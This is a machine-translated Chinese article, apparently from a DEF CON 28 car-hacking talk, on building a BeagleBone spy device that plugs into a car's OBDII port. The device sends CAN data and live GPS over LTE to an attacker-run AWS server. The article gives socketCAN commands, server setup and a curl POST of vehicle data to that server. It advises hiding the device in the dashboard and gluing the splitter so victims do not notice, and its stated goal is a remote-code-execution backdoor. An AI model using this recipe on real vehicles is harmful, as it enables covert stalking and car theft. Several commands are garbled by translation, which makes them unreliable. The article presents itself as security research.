# 用 Python 入侵汽车——第 1 部分数据泄漏:GPS 和 OBDII/CAN 总线

> 原文：<https://infosecwriteups.com/car-hacking-with-python-part-1-data-exfiltration-gps-and-obdii-can-bus-69bc6b101fd1?source=collection_archive---------1----------------------->

这篇文章是我在 DEF CON 28 汽车黑客村的[演讲的基础。我介绍了一个基于 Python 的设备，用于从 OBDII 端口发送和接收 CAN 消息；还能从行驶中的车辆上获取实时 GPS 坐标。所有的 CAN 和 GPS 数据都被过滤到云端，因此可以通过网络浏览器远程监控汽车。这篇文章是关于我个人使用开源软件和硬件进行汽车黑客攻击的经历:python-can/Flask 和](https://www.carhackingvillage.com/defcon28talks) [BeagleBone Blue](https://beagleboard.org/blue) 。



丘帕卡布拉间谍装置

我创建了一个单独的[一步一步的关于如何建立间谍设备](https://www.hackster.io/sacchet/chupacarbrah-car-hacking-with-beaglebone-and-python-18f137)的教程，也就是我将在本文中使用的 ChupaCarBrah。我还分享了在设备上运行的 python-can 客户端的所有代码；和运行在 AWS 上的服务器端 Flask 应用程序。spy 设备的第一个版本能够跟踪车辆位置并监控 CAN 数据(如发动机转速、气温、VIN 等)。所有的数据都是通过一个安装在喙骨上的移动 LTE 调制解调器传输的。JSON 格式用于将数据发送到 AWS 上的 Flask 应用程序。随着车辆的移动，云上的 JSON 数据会实时更新，允许您完全远程监控您的车辆。那是在你舒适的家里偷车。

ChupaCarBrah 上路了

作为这篇文章的后续，我计划再发表两篇文章来扩展当前的 ChupaCarBrah 功能:

**第 2 部分— ECU CAN 消息:**将展示如何篡改直接连接到 ECU 的 CAN 总线(因为 OBDII 通常只提供诊断数据)。我将着重于逆向工程的 CAN 消息发送精心制作的命令到 ECU。出于安全原因，我计划只涵盖无害的命令，如解锁车门，打开电动车窗等；

**第 3 部分——车辆 RCE:** 我计划扩展 ChupaCarBrah 应用程序，以更加用户友好的格式显示所有正在传输的数据，例如绘制在地图上的 GPS 数据。具有实时数据的 GUI 还将显示来自解码的 CAN 消息的当前车辆信息(速度、转速等)。我还计划用 POST 端点来扩展 AWS 服务，这将允许通过蜂窝网络创建反向 HTTP 会话来将 CAN 命令提交给车辆。

# 威胁建模

一般来说，汽车制造商采用一种威胁模型，通过在 CAN 总线和外部网络之间建立隔离来减少车辆上的攻击面。隔离可以是物理的(空气间隙)或逻辑的(can 网关/防火墙)。当 CAN 和外部网络确实需要连接时，网关是常见的(例如 [V2V](https://en.wikipedia.org/wiki/Vehicular_communication_systems) 或 [IVI](https://en.wikipedia.org/wiki/In-car_entertainment) )。网关通过仅单向转发 CAN 消息来提供逻辑分离。



用 ChupaCarBrah 弥合空气间隙

采用该威胁模型的安全级别将与物理访问 CAN 总线的难度和/或利用外部连接上的漏洞进入 CAN 总线的难度成正比。本文的目标是挑战这一点，并从实际角度展示如果攻击者实际进入车辆并安装 ChupaCarbrah 会发生什么。该间谍设备在隔离的 CAN 总线和互联网之间建立了一座桥梁，打破了制造商的威胁模式。

然而，对于使用 ChupaCarBrah 的完整笔测试，您仍然需要将我在这里展示的内容与其他攻击技术相结合，例如[密钥欺骗](https://www.wired.com/2017/04/just-pair-11-radio-gadgets-can-steal-car/)来访问车辆内部。因此，我认为这篇文章暴露的安全风险很低。但是我仍然想让人们意识到制造商考虑 CAN 消息的[加密解决方案的重要性；以及让车主意识到他们无法完全控制对车辆的物理访问的情况(例如代客泊车、洗车、忘记车门未锁等)。](https://ieeexplore.ieee.org/document/7934878)

ChupaCarBrah 装置:不到 60 秒

一旦进入车内，攻击者可以迅速将 ChupaCarBrah 与 OBDII 港联系起来。这个装置足够小，可以藏在仪表板里面。所用的 OBDII 分线器电缆将在车辆原装连接器前提供一个额外的 OBDII 母连接器。如果攻击者足够卑鄙，他/她可能会使用胶水将分离器永久固定在 OBDII 端口上。它将允许受害者最终将其他 OBDII 设备连接到车辆上，而不希望注意到 rouge ChupaCarBrah 设备。

# 汽车黑客概述

用 CAN ( [控制器局域网](https://en.wikipedia.org/wiki/CAN_bus))进行汽车黑客攻击已经被一些作者很好地报道了。如果你想更好地了解汽车厂商如何使用 CAN 总线来控制你的汽车的发动机和其他组件，我推荐你看一看克雷格·史密斯的[汽车黑客手册。](http://opengarages.org/handbook/ebook/)

我也推荐这篇非常好的文章:[Jared Reabow](https://www.instructables.com/id/How-to-Hack-and-Upgrade-Your-Car-Using-CAN-Bus/)的《如何利用 CAN 总线破解和升级你的汽车》。它特别关注 CAN，并提供了非常有用的提示，例如如何猜测波特率以及如何找到并接入车辆中的 CAN 总线。

这篇文章结合了这两位作者提出的黑客技术。然后，我更进一步，构建了一个简单的 BeagleBone 间谍设备，通过蜂窝网络与移动的汽车进行远程交互，同时通过 GPS 跟踪车辆位置。

# 为什么是 BeagleBone 蓝？

长话短说:BeagleBone Blue 已经支持 CAN，包括一个 CAN 收发器。



BeagleBone 蓝色嵌入式 CAN 收发器

这意味着，你不需要额外的斗篷或帽子。你基本上可以使用两根连接线，将你的猎兔犬骨的 CAN Hi 和 CAN Lo 引脚分别直接连接到你汽车上 OBDII 连接器的引脚 6 和 14。不仅如此，BeagleBone 还是一台完整的单板电脑，已经预装了[最新镜像](https://beagleboard.org/latest-images)包括 [SocketCan](https://en.wikipedia.org/wiki/SocketCAN) 。

它还具有嵌入式 WiFi 网卡，允许您在不将计算机物理连接到汽车的情况下使用 CAN 工具。它可以让你将设备“嵌入”到汽车中，让它完全脱离电脑运行。

对于长途连接，您可以使用 USB LTE 调制解调器(这将在接下来的章节中介绍)。

因此，BeagleBone Blue board 是汽车黑客的一个非常好的选择，特别是当其他受欢迎的工具如 [CANtact](https://linklayer.github.io/cantact/) 在几乎所有美国经销商处售罄时。如果不想使用开源，可以尝试商业产品，如 [Macchina.cc](https://docs.macchina.cc/p1-docs) (我自己没有尝试过，但由于它也是基于 [BeagleBoard](https://beagleboard.org/) ，我相信我在这里介绍的大部分内容仍然适用)。

# 建造 ChupaCarBrah

你需要的最少零件是一个[猎兔犬蓝](https://www.amazon.com/seeed-studio-SeeedStudio-BeagleBone-Blue/dp/B07Q22TVLQ/ref=pd_rhf_ee_p_img_1?_encoding=UTF8&psc=1&refRID=AC7G5546KT07GDR3KGCR)，一个 [JST/SH 连接器](https://www.seeedstudio.com/Grove-Universal-4-Pin-to-Beagleboner-Blue-4-Pin-Female-JST-SH-Conversion-Cable-10-pcs-pack.html)，和连接电线。它们应按如下所示进行连接:



BeagleBone 蓝色 JST/SH 连接器，带有连接到 CAN 插槽的连接导线

确保你的连接线足够长，这样你就可以正确地将它们连接到汽车的 OBDII 连接器上。请记住，如果您的电线太长，您可能需要扭曲黄色和绿色(CAN Hi 和 Lo)以更接近标准 CAN 电缆的特性。当然，你也可以使用真正的 [CAN 电缆](https://www.waytekwire.com/item/CB23-00070/Champlain-Cable-23-00070-EXRAD-Can-Bus/)来代替连接线。



比格犬骨蓝连接到 OBDII

这将允许您启动您的 BeagleBone，启动一个套接字 CAN 接口来发送和接收 CAN 消息。这就是你开始黑罐头所需要的全部，然而，通过一些额外的部件，你可以显著增加你的猎兔犬骨的能力来创建一个完整的 ChupaCarBrah 间谍设备。我已经将构建 ChupaCarbrah 的所有分步说明放在了一篇单独的文章中，所以我可以保持这篇文章的简洁，并将重点放在 Python 的黑客攻击上。

请参考 Hackster.io 上的[ChupaCarBrah——使用 BeagleBone 和 Python 进行汽车黑客攻击](https://www.hackster.io/sacchet/chupacarbrah-car-hacking-with-beaglebone-and-python-18f137),了解如何创建支持 GPS 和蜂窝网络的成熟间谍设备的详细信息。

# 发送和接收 CAN 消息

将 BeagleBone 连接到 OBDII 后，按下电源按钮启动它，然后通过 SSH 连接到它。我建议[尽可能使用 WiFi](https://github.com/beagleboard/beaglebone-blue/wiki/Frequently-Asked-Questions-(FAQ)#What_is_the_name_of_the_access_point_SSID_and_password_default_on_BeagleBone_Blue) 。速度更快，而且你可以在手机数据套餐上省下一些钱。您需要打开点火开关，这样汽车的 CAN 设备也可以“启动”。你可能想启动引擎，以防止杀死你的汽车电池。

在使用 Python 代码之前，尝试使用 socketCAN 手动发送和接收一些消息。首先，设置 can0 (can zero)接口的波特率并启用它。

> sudo ip 链接设置 can0 up 类型 can 比特率 500000
> sudo ifconfig can0 up

大多数汽车在 OBDII 公共汽车上使用 500kpbs。使用 candump 监听 can0 接口上的消息

> sudo candump can0

根据您的车辆，您可能已经在总线上看到 CAN 消息。如果你的总线是安静的，打开一个新的终端，使用 cansend 发送一些消息:

> sudo can send can 0 7DF # 020902000000000

您应该在运行 candump 的终端上看到该消息及其响应。如果没有，您可能需要检查您的布线和/或车辆使用的波特率。您刚刚发送的 CAN 消息将请求车辆 VIN 号，响应应该类似于下面的截图。



用于检索车辆 VIN 的 CAN 消息

车辆识别号数据显示在最后 3 个数字“32 43 34”中，可以从十六进制解码为 ASCII 码“2C4”:

> echo "32 43 34" | xxd -r -p

VIN 数据格式如下:



VIN 数据格式

如果您向这个[在线 NHTSA 工具](https://vpic.nhtsa.dot.gov/decoder/Decoder)提供您的 ASCII VIN，您可以解析您的车辆 WMI(世界制造商标识符)并检查其准确性。在我的例子中，“2C4”告诉我的车是一辆在加拿大制造的道奇乘用车。

既然您已经确认可以使用 socketcan 向汽车发送 CAN 消息，也可以从汽车接收 CAN 消息，那么您可以使用 Python 以编程方式来实现这一点:

发送和接收 CAN 消息的 Python 代码

如果您想尝试不同的命令，请参考[此表](https://github.com/blupants/chupacarbrah/blob/master/obd2_std_PIDs_enabled.csv)中您可以使用的可用 OBDII PID 列表。确保在 Python 脚本中将“模式(十六进制)”的整数值分配给变量“服务 _ 整数”，并将“PID(十六进制)”的整数值分配给变量“pid _ 整数”。

例如，如果您想要读取引擎 RPM，请使用以下内容更改脚本的第 5 行和第 6 行:

> service_int = int("1 "，16)
> 
> pid_int = int("0C "，16)

你可以在这里找到更多关于 OBDII PID 的文档。

# GPS 坐标

要获取 GPS 数据，只需在 ChupaCarBrah 设备上运行“tio”命令。

> tio /dev/ttyO2 -b 4800

它将显示大量的 [GPS NMEA 语句](http://aprs.gids.nl/nmea/)，但是出于地理定位的目的，您将只对 GPRMC 语句感兴趣。



丘帕卡布拉的 GPS 数据

你可以通过复制一个 GPRMC 语句(例如 **$GPRMC，170454.000，A，3500.87097，N，10641.14163，W，0.00，171.40，100520，，，A*79** )到这个[在线 GPRMC 工具](https://rl.se/gprmc)来解码地理定位语句，它会在地图上标出你的确切位置。



GPS GPRMC 地理位置标绘在地图上。与海森堡的鸡肉午餐

您可以使用以下 Python 脚本以编程方式检索 GPS 地理定位 GPRMC 数据:

检索 GPS 地理位置坐标的 Python 代码

# 连接到蜂窝网络

我使用全息数据计划与诺瓦 HOL-诺瓦-R410 蜂窝调制解调器，但任何其他运营商或与 BeagleBone 兼容的蜂窝调制解调器都可以正常工作。只要您能够使用蜂窝数据连接到互联网，一切都应该是好的。

全息图的一个好处是它们提供了 Python SDK。使用数据计划激活 SIM 卡并安装 SDK 后，您可以使用这个 Python 脚本。它允许您通过手机以编程方式连接到互联网，并 ping Google 来检查连接性。

Python 代码将全息蜂窝模式连接到互联网

请参考 Hackster.io 上的 [ChupaCarBrah 教程](https://www.hackster.io/sacchet/chupacarbrah-car-hacking-with-beaglebone-and-python-18f137)，了解如何安装全息调制解调器及其 SDK 的全部细节。

# 泄露数据

首先，你需要一个服务器来接收数据。使用 [Github](https://github.com/blupants/chupacarbrah_server) 上可用的 Python[chupacarbrah _ server . py](https://github.com/blupants/chupacarbrah_server/blob/master/chupacarbrah_server.py)代码，并将其作为服务部署在 AWS 上。

这里是 TL；DR 命令这样做:

> ~ $ git clone[https://github.com/blupants/chupacarbrah_server.git](https://github.com/blupants/chupacarbrah_server.git)
> ~ $ CD chupacarbrah _ server
> ~ $ CP chupacarbrah _ server . py application . py
> ~ $ source virt/bin/activate
> (virt)~ $ pip install flask = = 1 . 0 . 2
> (virt)~ $ pip freeze>requirements . txt
> (virt)~ $ deactivate
> ~ $ python 3-m pip install AWS CLI
> 
> 是否要为您的实例设置 SSH？(是/否):我选择一个密钥对。1)我的密钥对 2) [创建新的密钥对]
> 
> ~$ eb 创建 chupacarbrah-env
> ~$ eb 打开

如果您还需要更多的详细说明，请再次参考 Hackster.io 上的 [ChupaCarBrah 教程](https://www.hackster.io/sacchet/chupacarbrah-car-hacking-with-beaglebone-and-python-18f137)。

服务运行后，记下 URL，这样您就可以将脚本指向 BeagleBone，并将数据发送到那里。您可以通过用 curl 发布一些虚拟数据来确认您的服务已经启动并运行:

> **SERVER _ URL =<PUT _ YOUR _ AWS _ SERVICE _ URL _ HERE>**
> 
> curl —标题“Content-Type:application/JSON”\
> —请求 POST \
> —数据“{ car _ uuid”:“51f 317 EC 266 E4 ADB 95621201 f 87 ba 52”，“VIN”:“2c 4”，“maker”:“Generic”，“log”:{“timestamp”:“202005011120000”，“GPS”:“00”}“\
> ”$ SERVER _ URL/API/v1/cars”
> 
> curl "$SERVER_URL/api/v1/status "



在 AWS 上从 ChupaCarBrah 服务发布和获取虚拟数据

一旦您确认 AWS 服务正常工作，ssh 到 BeagleBone 并从 [Github](https://github.com/blupants/chupacarbrah) 克隆 chupacarbrah 客户端 repo。确保编辑 [chupacarbrah.py](https://github.com/blupants/chupacarbrah/blob/master/chupacarbrah.py#L17) 脚本，并用上一步的 AWS 服务 url 设置 **server_url** 变量。

> git 克隆[https://github.com/blupants/chupacarbrah.git](https://github.com/blupants/chupacarbrah.git)
> CD chupacarbrah
> sudo pyt 3 chupacarbrah . py

一旦运行，ChupaCarBrah 客户端将消耗所有在 [simple.csv](https://github.com/blupants/chupacarbrah/blob/master/simple.csv) 上启用的 CAN 命令，并将它们发送到 CAN 总线。响应将显示在 stdout 上，并发送到/tmp/chupacarbrah/日志文件。每隔 1 分钟，它也会作为 JSON 发送给 AWS 服务。

要停止它，请打开一个新的终端(ssh 会话)并运行:

> sudo touch /tmp/stop

为了启用/禁用更多的 [OBDII PID 命令](https://en.wikipedia.org/wiki/OBD-II_PIDs)，您可以编辑文件[OBD 2 _ STD _ PIDs _ enabled . CSV](https://github.com/blupants/chupacarbrah/blob/master/obd2_std_PIDs_enabled.csv)通过将“启用”列上的 1 设置为您要启用的所有命令，将您要禁用的命令设置为零。在启用额外的命令之前，请确保您理解这些命令的作用，并知道您在做什么。simple.csv 和 obd2_std_PIDs_enabled.csv 文件都可以在您刚刚克隆到 BeagleBone 的 chupacarbrah github repo 上找到。

打开 web 浏览器，监控 JSON 数据，该数据每分钟都在更新，包含来自车辆的所有渗出信息。



AWS 上 ChupaCarBrah 服务的 JSON 虚拟数据示例

您可能需要刷新浏览器上的页面，以更新显示的数据。因为它使用 JSON 格式，所以创建前端来使用它和/或与其他应用程序集成非常方便。

下一步是什么？

本系列的第一部分到此结束，共有 3 篇文章。请继续关注下一部分，我将介绍如何进入 ECU CAN 消息并为 ChupaCarBrah 添加更多功能。最终目标是在车辆中创建一个完整的后门，支持远程代码执行。